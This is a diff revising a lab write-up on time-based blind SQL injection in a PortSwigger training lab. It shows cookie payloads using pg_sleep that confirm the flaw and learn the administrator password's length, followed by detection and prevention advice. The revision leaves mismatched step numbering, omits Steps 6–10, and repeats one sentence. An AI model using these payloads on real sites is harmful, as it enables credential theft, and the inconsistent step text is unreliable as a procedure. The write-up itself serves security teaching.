

finding the password length

diff --git a/Web-Attacks/blind-sqli-time-delays-info-retrieval/README.md b/Web-Attacks/blind-sqli-time-delays-info-retrieval/README.md
@@ -2,24 +2,22 @@
 
 ## Table of Contents
 
-
 * [Introduction](#introduction)
 * [Attack Flow](#attack-flow)
 * [Why This Attack Works](#why-this-attack-works)
 * [Lab Setup](#lab-setup)
 * [Tools Used](#tools-used)
 * [Prerequisites](#prerequisites)
-  * [Step 1: Setting Up the Lab and Intercepting the Request](#step-1-setting-up-the-lab-and-intercepting-the-request)
-  * [Step 2: Confirming the SQL Injection Point via Time Delay](#step-2-confirming-the-sql-injection-point-via-time-delay)
-  * [Step 3: Testing a False Condition](#step-3-testing-a-false-condition)
-  * [Step 4: Checking if the "administrator" User Exists](#step-4-checking-if-the-administrator-user-exists)
-  * [Step 5: Finding the Password Length](#step-5-finding-the-password-length)
-  * [Step 6: Finding Where the Password Length Check Stops Being True](#step-6-finding-where-the-password-length-check-stops-being-true)
-  * [Step 7: Setting Up Burp Intruder for Character Extraction](#step-7-setting-up-burp-intruder-for-character-extraction)
-  * [Step 8: Making Sure Requests Run One at a Time](#step-8-making-sure-requests-run-one-at-a-time)
-  * [Step 9: Finding the First Character of the Password](#step-9-finding-the-first-character-of-the-password)
-  * [Step 10: Repeating the Attack for Each Remaining Character](#step-10-repeating-the-attack-for-each-remaining-character)
-  * [Step 11: Logging In and Solving the Lab](#step-11-logging-in-and-solving-the-lab)
+  * [Step 1 - Setting Up the Lab and Intercepting the Request](#step-1-setting-up-the-lab-and-intercepting-the-request)
+  * [Step 2 - Confirming the SQL Injection Point with a Time Delay](#step-2-confirming-the-sql-injection-point-with-a-time-delay)
+  * [Step 3 - Testing a False Condition](#step-3-testing-a-false-condition)
+  * [Step 4 - Checking if the "administrator" User Exists](#step-4-checking-if-the-administrator-user-exists)
+  * [Step 5 - Finding the Password Length](#step-5-finding-the-password-length)
+  * [Step 6 - Setting Up Burp Intruder for Character Extraction](#step-7-setting-up-burp-intruder-for-character-extraction)
+  * [Step 7 - Making Sure Requests Run One at a Time](#step-8-making-sure-requests-run-one-at-a-time)
+  * [Step 8 - Finding the First Character of the Password](#step-9-finding-the-first-character-of-the-password)
+  * [Step 9 - Repeating the Attack for Each Remaining Character](#step-10-repeating-the-attack-for-each-remaining-character)
+  * [Step 10 - Logging In and Solving the Lab](#step-11-logging-in-and-solving-the-lab)
 * [How Defenders Can Catch This](#how-defenders-can-catch-this)
 * [How to Prevent It](#how-to-prevent-it)
 * [References](#references)
@@ -77,18 +75,26 @@ This lets me ask the database simple true or false questions. For example, I can
 - Basic understanding of SQL syntax (SELECT, CASE WHEN, SUBSTRING)
 - Knowledge of how cookies are sent in HTTP requests
 
-## Step 1: Setting Up the Lab and Intercepting the Request
+## Step 1 - Setting Up the Lab and Intercepting the Request
 
-I opened the "Blind SQL injection with time delays and information retrieval" lab from PortSwigger Web Security Academy. Before touching anything, I turned on Intercept in Burp Suite's Proxy tab, then visited the lab's front page.
+I opened the **Blind SQL injection with time delays and information retrieval** lab in PortSwigger Web Security Academy.
 
-Once the front page loaded, Burp caught the request going out to the server. Inside this request, I could see the `Cookie` header carrying a `TrackingId` value along with a `session` value:
+Before interacting with the application, I turned **Intercept** on in **Burp Suite** and visited the lab's home page. Burp intercepted the request sent by my browser.
+
+In the request, I found the following `Cookie` header:
 
 ```bash
 Cookie: TrackingId=Q3SWxllcbjggnqJ0; session=LOKQKFvZhhwXB5C847y0LYVn0qFsQrrV
 ```
-I picked `TrackingId` as my target because shopping sites often use cookies like this to track visitors, and the value usually comes straight from a database lookup — which makes it worth testing for SQL injection.
 
-I sent this request to Burp Repeater so I could edit and resend it as many times as I wanted, without reloading the page every time.
+The request contained two cookies:
+
+- `TrackingId` – Used by the application to identify or track the visitor.
+- `session` – Used to keep the current user session active.
+
+I chose the `TrackingId` cookie for testing because tracking cookies are often used in database queries. If the application does not handle the value safely, it can become an SQL injection point.
+
+To make testing easier, I sent the request to **Burp Repeater**. This allowed me to modify the `TrackingId` value and send the same request multiple times without refreshing the page.
 
 <p align="center">
   <img src="images/step1-1.png" width="600">
@@ -100,84 +106,165 @@ I sent this request to Burp Repeater so I could edit and resend it as many times
   <img src="images/step1-3.png" width="600">
 </p>
 
-## Step 2: Confirming the SQL Injection Point via Time Delay
+## Step 2 - Confirming the SQL Injection Point with a Time Delay
 
-Inside Burp Repeater, I changed the `TrackingId` cookie value to this payload, to see if the server would actually run SQL code I put in it:
+In **Burp Repeater**, I modified the `TrackingId` cookie and replaced its value with the following payload:
 
 ```bash
-Q3SWxllcbjggnqJ0' %3BSELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END --
+TrackingId=Q3SWxllcbjggnqJ0' %3BSELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END --
 ```
 **Breakdown**
 
-| Part                          | Description|
-|----------------------------------|-------------------------------------------------------------------|
-| `Q3SWxllcbjggnqJ0'`                    | Random tracking string followed by a single quote to close the original string value so my own SQL can start right after |
-| `%3B`                             | URL-encoded semicolon (`;`) — ends the current statement and starts a new one |
-| `SELECT CASE WHEN (1=1)`          | A condition that's always true, just to check if my code runs at all |
-| `THEN pg_sleep(5)`                | If the condition is true, make PostgreSQL wait 5 seconds          |
-| `ELSE pg_sleep(0)`                | If false, don't wait at all                                       |
-| `END --`                          | Closes the CASE block and comments out the rest of the original query |
+| Part | Description |
+|------|-------------|
+| `Q3SWxllcbjggnqJ0'` | Closes the original string so the injected SQL can be executed. |
+| `%3B` | URL-encoded semicolon (`;`). It ends the original SQL statement and starts a new one. |
+| `SELECT CASE WHEN (1=1)` | A condition that is always true. It is used to check whether the injected SQL is executed. |
+| `THEN pg_sleep(5)` | If the condition is true, PostgreSQL waits for 5 seconds before returning a response. |
+| `ELSE pg_sleep(0)` | If the condition is false, no delay is added. |
+| `END--` | Ends the `CASE` expression and comments out the rest of the original query. |
 
-
-I clicked Send, and the response came back after **5,302 ms** — about 5 seconds, just like I told it to wait. This showed me the cookie value was going directly into a SQL query on the backend, and the server was running whatever I put there. This confirmed the `TrackingId` cookie was vulnerable to **time-based blind SQL injection**.
+After sending the request, the response took about **5,302 ms** to return.
+The delay matched the `pg_sleep(5)` function in the payload. This confirmed that the SQL code inside the `TrackingId` cookie was being executed by the database.
+At this point, I confirmed that the `TrackingId` cookie was vulnerable to **time-based blind SQL injection**.
 
 <p align="center">
   <img src="images/step2-1.png" width="600">
 </p>
 
-## Step 3: Testing a False Condition
+## Step 3 - Testing a False Condition
 
-Next, I wanted to see what happens when the condition is false, so I changed the payload to this:
+To make sure the delay only happened when the condition was true, I changed the payload to use a condition that is always false:
+
 
 ```bash
-Q3SWxllcbjggnqJ0' %3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--
+TrackingId=Q3SWxllcbjggnqJ0' %3BSELECT CASE WHEN(1=2) THEN pg_sleep(5) ELSE pg_sleep(0) END--
 ```
-Here `1=2` is never true, so the `ELSE` part should run instead, which means no delay at all.
+Since `1=2` is always false, the `ELSE` statement should run, which means the database should not pause before sending the response.
 
-The response came back in just 294 ms, almost instantly. This confirmed I could tell true and false apart just by watching how long the response takes — which is the whole idea behind time-based blind SQL injection.
+After sending the request, the response was returned in about **294 ms**, with no noticeable delay.
+
+Comparing the results:
+
+- **True condition (`1=1`)** → Response delayed by about **5,302 ms**
+- **False condition (`1=2`)** → Response returned immediately
+
+This confirmed that I could determine whether a condition was **true** or **false** by measuring the response time. This is the basic idea behind **time-based blind SQL injection**.
 
 <p align="center">
   <img src="images/step3-1.png" width="600">
 </p>
 
-## Step 4: Checking if the "administrator" User Exists
+## Step 4 - Checking if the "administrator" User Exists
 
-Now that I could tell true from false using timing, I moved on to asking the database a real question — whether a user called `administrator` exists in the `users` table:
+After confirming that I could distinguish **true** and **false** conditions based on the response time, I checked whether the `administrator` user existed in the `users` table.
+
+I used the following payload:
 
 ```bash
-Q3SWxllcbjggnqJ0' %3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--
+TrackingId=Q3SWxllcbjggnqJ0' %3BSELECT CASE WHEN(username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
 ```
 **Breakdown**
 
-| Part   | Description|
-|--------|------------|
-|`WHEN (username='administrator')`|Checks if any row in the table has this exact username|
-|`FROM users`|	Runs this check against the users table|
+| Part | Description |
+|------|-------------|
+| `WHEN (username='administrator')` | Checks whether the current row contains the username `administrator`. |
+| `FROM users` | Runs the check against the `users` table. |
 
-The response took 5,283 ms, showing the delay kicked in. This meant the condition was true — a user named administrator really does exist in the users table.
+After sending the request, the response took about **5,293 ms** to return.
+
+The delay showed that the condition was **true**, confirming that a user named `administrator` exists in the `users` table.
+
+The response took 5,293 ms, showing the delay kicked in. This meant the condition was true — a user named administrator really does exist in the users table.
 
 <p align="center">
   <img src="images/step4-1.png" width="600">
 </p>
 
-## Step 5: Finding the Password Length
+## Step 5 - Finding the Password Length
 
-Now that I knew the `administrator` user exists, the next thing to figure out was how long their password is. I used the `LENGTH()` function to check this one number at a time:
+After confirming that the `administrator` user exists, I started finding the length of the password.
 
-```bash
-Q3SWxllcbjggnqJ0' %3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>=10)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--
-```
-**Breakdown**
-
-| Part   | Description|
-|--------|------------|
-|`AND LENGTH(password)>1`|Checks if the password has more than 1 character, on top of matching the username|
-
-The response took around 5,200 ms, meaning the condition was true — the password is longer than 1 character.
-
-I kept sending the same request, just bumping the number up each time (`>2`, `>3`, `>4`...) and watching for the delay:
+I used the following payload:
 
 ```bash
-Q3SWxllcbjggnqJ0' %3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--
+TrackingId=Q3SWxllcbjggnqJ0'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
 ```
-This one also came back delayed, around **5,299 ms**, so I kept increasing the number and repeating the same check in Burp Repeater until the delay finally stopped showing up. The number right before the delay disappeared was the actual length of the password.
+
+### Payload Breakdown
+
+| Part | Description |
+|------|-------------|
+| `AND LENGTH(password)>1` | Checks whether the administrator's password is longer than 1 character. |
+
+<p align="center">
+  <img src="images/step5-1.png" width="600">
+</p>
+
+After sending the request, the response took about **5,292 ms**, which meant the condition was **true**. This confirmed that the password was longer than one character.
+
+Next, I increased the number and sent the request again:
+
+```bash
+TrackingId=Q3SWxllcbjggnqJ0'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>2) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
+```
+<p align="center">
+  <img src="images/step5-2.png" width="600">
+</p>
+
+The response was delayed again, so I continued increasing the value (`>3`, `>4`, `>5`, and so on), sending the request after each change.
+
+After repeating the test with increasing values, I found that the response was delayed up to `LENGTH(password)>19`, this one also came back delayed, around **5,488 ms**. 
+
+```bash
+TrackingId=Q3SWxllcbjggnqJ0'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>19) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
+```
+<p align="center">
+  <img src="images/step5-3.png" width="600">
+</p>
+
+But the delay stopped when I tested `LENGTH(password)>20`.
+
+```bash
+TrackingId=Q3SWxllcbjggnqJ0'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
+```
+
+The response came back in **261 ms**, no delay. which meant the condition was **false**. From these results, I determined that the administrator's password was **20 characters** long.
+
+<p align="center">
+  <img src="images/step5-4.png" width="600">
+</p>
+
+
+
+## Step 11 - Logging In and Solving the Lab
+
+With all 20 characters put together, I now had the full password for the administrator account. I went to the My account login page, entered administrator as the username along with the password I had extracted, and logged in successfully.
+
+The lab was marked as solved.
+
+## How Defenders Can Catch This
+
+| Sign to look for | What it means |
+|---|---|
+| Slow responses from one source | If a certain IP keeps getting responses that take exactly 5s, 10s, or some fixed number, that's not normal traffic — that's someone timing something |
+| Weird keywords in logs | Words like `SLEEP`, `WAITFOR DELAY`, `BENCHMARK`, or `pg_sleep` showing up inside cookie values or form fields in the access logs |
+| The same field getting hit over and over | If one cookie or parameter is being sent with slightly different values, again and again, hundreds of times, that's a brute-force pattern, which is exactly what Intruder does |
+| Database slow query logs | The database itself will show query execution times spiking way above normal, right around the same time as the suspicious requests |
+
+## How to Prevent It
+
+- Use parameterized queries or prepared statements everywhere user input touches a query, never build SQL by joining strings together with input mixed in
+- Validate and clean up every piece of input before it goes anywhere near the database
+- If using an ORM, stick to its query builder instead of writing raw SQL by hand
+- Put a WAF in front of the app to catch and block obvious keywords like SLEEP, WAITFOR, BENCHMARK
+- Give the database user account the least amount of access it actually needs, so even if injection happens, the damage is limited
+- Set a timeout on how long a single query is allowed to run, so an attacker can't force the database to hang for several seconds
+
+## Lesson Learned
+
+- Even when an app shows nothing on screen, no error, no extra data, it can still leak information through something as simple as response time
+- Blind doesn't mean safe. If input reaches a query unfiltered, there's always some way to pull data out, it just takes more patience
+- Running requests one at a time matters a lot in timing attacks. Sending them too fast or in parallel ruins the whole measurement
+- Breaking a big unknown (a 20 character password) into small yes/no questions is what makes this kind of attack possible at all
+- This attack is slow and takes a lot of requests, but it works even against a database that gives away nothing else
